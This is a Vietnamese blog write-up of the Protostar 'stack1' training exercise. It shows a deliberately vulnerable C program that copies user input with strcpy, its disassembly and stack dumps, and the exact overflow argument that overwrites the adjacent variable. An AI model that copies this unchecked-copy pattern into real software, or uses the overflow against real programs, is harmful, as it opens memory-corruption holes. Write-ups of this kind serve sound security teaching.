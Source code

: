 ```yaml
---
layout: post
title: stack1
---
```

Trong bài trước, chúng ta đã tìm hiểu về cách 1 biến tạm được lưu trên stack và lỗ hổng cho phép giá của nó có thể thay đổi gián tiếp qua hàm `gets`. Ngoài hàm `gets`, trong bài này, ta sẽ xem xét một hàm khác là `strcpy`, cũng có khả năng gây ra lỗ hổng tương tự.
Sau đây là source code của chương trình stack1:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

Khi disassemble hàm `main`, ta được đoạn chương trình sau:
```asm
0x08048464 <main+0>:    push   ebp
0x08048465 <main+1>:    mov    ebp,esp
0x08048467 <main+3>:    and    esp,0xfffffff0
0x0804846a <main+6>:    sub    esp,0x60
0x0804846d <main+9>:    cmp    DWORD PTR [ebp+0x8],0x1
0x08048471 <main+13>:   jne    0x8048487 <main+35>
0x08048473 <main+15>:   mov    DWORD PTR [esp+0x4],0x80485a0
0x0804847b <main+23>:   mov    DWORD PTR [esp],0x1
0x08048482 <main+30>:   call   0x8048388 <errx@plt>
0x08048487 <main+35>:   mov    DWORD PTR [esp+0x5c],0x0
0x0804848f <main+43>:   mov    eax,DWORD PTR [ebp+0xc]
0x08048492 <main+46>:   add    eax,0x4
0x08048495 <main+49>:   mov    eax,DWORD PTR [eax]
0x08048497 <main+51>:   mov    DWORD PTR [esp+0x4],eax
0x0804849b <main+55>:   lea    eax,[esp+0x1c]
0x0804849f <main+59>:   mov    DWORD PTR [esp],eax
0x080484a2 <main+62>:   call   0x8048368 <strcpy@plt>
0x080484a7 <main+67>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484ab <main+71>:   cmp    eax,0x61626364
0x080484b0 <main+76>:   jne    0x80484c0 <main+92>
0x080484b2 <main+78>:   mov    DWORD PTR [esp],0x80485bc
0x080484b9 <main+85>:   call   0x8048398 <puts@plt>
0x080484be <main+90>:   jmp    0x80484d5 <main+113>
0x080484c0 <main+92>:   mov    edx,DWORD PTR [esp+0x5c]
0x080484c4 <main+96>:   mov    eax,0x80485f3
0x080484c9 <main+101>:  mov    DWORD PTR [esp+0x4],edx
0x080484cd <main+105>:  mov    DWORD PTR [esp],eax
0x080484d0 <main+108>:  call   0x8048378 <printf@plt>
0x080484d5 <main+113>:  leave
0x080484d6 <main+114>:  ret
```

Cũng giống như bài trước, ta rút ra được những lưu ý sau:
1. Biến `modified` sẽ được lưu trên stack với địa chỉ `esp + 0x5c`. Biến này có 4 byte.
2. Biến `buffer` cũng được lưu trên stack từ địa chỉ `esp + 0x1c` cho đến `esp + 0x5b`. Biến này có 64 byte.

2 biến `buffer` và `modified` nằm kề nhau và chiếm bộ nhớ từ `esp + 0x1c` cho đến hết `esp + 0x5f`.
Ở đây, giá trị của `buffer` sẽ được quyết định bởi tham số đầu tiên `argv[1]` khi chương trình được chạy.
Chỉ cần tham số này vượt quá 64 byte, giá trị của `modified` cũng sẽ bị thay đổi.

Để dễ tưởng tượng, sau đây là 96 byte bộ nhớ bắt đầu từ địa chỉ `esp`, trước khi người dùng nhập giá trị cho `buffer`.
Phân biệt theo màu: <span style="color:aqua">buffer</span> và <span style="color:orangered">modified</span>.
<pre style="color:dimgrey">
0xbffff6f0:     0xbffff70c      0xbffff93e      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      0xbffff718      <span style="color:aqua">0xb7eada75</span>
0xbffff710:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x080496fc</span>      <span style="color:aqua">0xbffff728</span>      <span style="color:aqua">0x08048334</span>
0xbffff720:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x080496fc</span>      <span style="color:aqua">0xbffff758</span>      <span style="color:aqua">0x08048509</span>
0xbffff730:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x080484f0</span>      <span style="color:aqua">0xbffff758</span>
0xbffff740:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x080484fb</span>      <span style="color:orangered">0x00000000</span>
</pre>

Nếu sử dụng input như bài trước, ta sẽ sửa được giá trị của `modified` thành `0x00000078`.
Sau đây là bộ nhớ sau `strcpy`.

```bash
stack1 "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888x"
```

<pre style="color:dimgrey">
0xbffff6f0:     0xbffff70c      0xbffff941      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      0xbffff718      <span style="color:aqua">0x41414141</span>
0xbffff710:     <span style="color:aqua">0x42424242</span>      <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>
0xbffff720:     <span style="color:aqua">0x46464646</span>      <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>
0xbffff730:     <span style="color:aqua">0x32323232</span>      <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>
0xbffff740:     <span style="color:aqua">0x36363636</span>      <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x00000078</span>
</pre>

Tuy nhiên để đạt được đúng mục tiêu exploit chương trình stack1, chúng ta sẽ cần gán giá trị cho `modified` là `0x61626364`.
4 byte giá trị này tương đương với `"dcba"` (chuỗi ngược do kiến trúc CPU dùng Little Endian).
Sau đây là lệnh và tham số để chạy stack1 cho ra đúng kết quả mong muốn.

```bash
stack1 "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888dcba"
```

Đi kèm với đó là bộ nhớ sau `strcpy` để bạn dễ tưởng tượng.

<pre style="color:dimgrey">
0xbffff6f0:     0xbffff70c      0xbffff93e      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      0xbffff718      <span style="color:aqua">0x41414141</span>
0xbffff710:     <span style="color:aqua">0x42424242</span>      <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>
0xbffff720:     <span style="color:aqua">0x46464646</span>      <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>
0xbffff730:     <span style="color:aqua">0x32323232</span>      <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>
0xbffff740:     <span style="color:aqua">0x36363636</span>      <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x61626364</span>
</pre>

## Ref
```bash
user@protostar:~$ stack1 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888dcba
you have correctly got the variable to the right value
```
